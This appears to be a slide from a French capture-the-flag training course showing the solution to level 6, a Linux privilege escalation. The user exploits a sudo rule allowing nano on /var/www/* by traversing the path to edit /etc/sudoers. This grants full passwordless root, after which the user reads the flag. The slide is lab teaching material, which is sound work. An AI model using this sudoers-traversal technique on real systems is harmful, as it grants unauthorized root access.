

CORRECTION / Niveau 6

level6@clusir-ceh-20200212:~$ sudo -l
User level6 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /usr/bin/free
	(root) NOPASSWD: /usr/bin/clear
	(root) NOPASSWD: /bin/nano /var/www/*
	…

level6@clusir-ceh-20200212:~$ sudo nano /var/www/../../etc/sudoers
> level6 ALL = (ALL)  NOPASSWD: ALL

level6@clusir-ceh-20200212:~$ sudo -i

root@clusir-ceh-20200212:~# cat /root/flag
${CLUSIRceh2020|GenTBOB}